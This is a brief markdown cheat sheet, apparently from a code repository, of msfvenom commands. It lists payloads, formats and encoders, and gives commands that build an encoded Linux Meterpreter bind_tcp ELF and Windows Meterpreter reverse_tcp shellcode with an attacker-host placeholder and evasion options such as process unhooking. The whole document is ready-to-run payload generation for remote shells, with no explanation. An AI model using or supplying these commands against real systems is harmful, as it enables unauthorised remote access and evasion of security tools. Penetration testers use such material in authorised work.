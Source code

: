 # Lists
```sh
msfvenom --list payloads
msfvenom --list formats
msfvenom --list encoders
```

# Meterpreter - Linux - bind_tcp
```sh
# --encrypt aes256 does not work for exe and elf
msfvenom -a x64 -e x64/xor_dynamic --platform Linux -p linux/x64/meterpreter/bind_tcp -f elf LPORT=10000 EnableStageEncoding=true -o bind_tcp
```

# Meterpreter - Windows - reverse_tcp
```sh
msfvenom -a x64 --platform Windows -p windows/x64/meterpreter_reverse_tcp LPORT=10000 LHOST=[ip] AutoUnhookProcess=true PingbackSleep=15 -f raw -o shellcode.bin 
```
